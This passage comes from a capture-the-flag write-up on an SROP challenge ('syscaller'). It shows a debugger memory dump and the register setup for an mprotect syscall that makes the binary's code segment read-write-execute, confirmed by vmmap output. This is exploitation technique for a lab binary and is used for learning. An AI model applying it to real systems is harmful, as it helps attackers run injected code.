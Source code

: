 ```
gef➤  x/65g 0x7fffffffde68
0x7fffffffde68:    0x3832373533393531    0xa
0x7fffffffde78:    0x0    0x0
0x7fffffffde88:    0x0    0x0
0x7fffffffde98:    0x0    0x0
0x7fffffffdea8:    0x0    0x0
0x7fffffffdeb8:    0x0    0x0
0x7fffffffdec8:    0x0    0x0
0x7fffffffded8:    0x0    0x0
0x7fffffffdee8:    0x0    0x0
0x7fffffffdef8:    0x0    0x0
0x7fffffffdf08:    0x0    0x0
0x7fffffffdf18:    0x0    0x0
0x7fffffffdf28:    0x0    0x0
0x7fffffffdf38:    0x0    0x0
0x7fffffffdf48:    0x0    0x0
0x7fffffffdf58:    0x0    0x0
0x7fffffffdf68:    0x0    0x0
0x7fffffffdf78:    0x0    0x0
0x7fffffffdf88:    0x0    0x0
0x7fffffffdf98:    0x0    0x0
0x7fffffffdfa8:    0x0    0x0
0x7fffffffdfb8:    0x0    0x0
0x7fffffffdfc8:    0x0    0x0
0x7fffffffdfd8:    0x0    0x0
0x7fffffffdfe8:    0x0    0x0
0x7fffffffdff8:    0x0    0x0
0x7fffffffe008:    0x0    0x0
0x7fffffffe018:    0x0    0x0
0x7fffffffe028:    0x0    0x0
0x7fffffffe038:    0x0    0x0
0x7fffffffe048:    0x0    0x0
0x7fffffffe058:    0x0    0x0
0x7fffffffe068:    0x0
```

My solution to this is to remap the binary segment (`0x400000 - 0x401000`) to the permissions `rwx`, so we can read write and execute to that segment. I will do this using an `mprotect` syscall, which allows me to assign permissions to a memory region. For that, we will need to have the following register values set:

```
rax:    0xa (specify memprotect syscall)
rdi:    0x400000 (specify beginning of the binary's data segment)
rsi:    0x1000 (specify to apply the permissions to the chunk of this length, which covers the entire memory segment)
rdx:    0x7 (standard unix permission for read write and execute, read is 4, write is 2, execute is 1)
```

When we make that syscall, we see that we are able to remap the permissions to be `rwx` from `r-x`:

```
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 rwx /Hackery/pod/modules/srop/swamp19_syscaller/syscaller
0x00007fff39c9e000 0x00007fff39cbf000 0x0000000000000000 rwx [stack]
0x00007fff39ddd000 0x00007fff39de0000 0x0000000000000000 r-- [vvar]
0x00007fff39de0000 0x00007fff39de1000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```
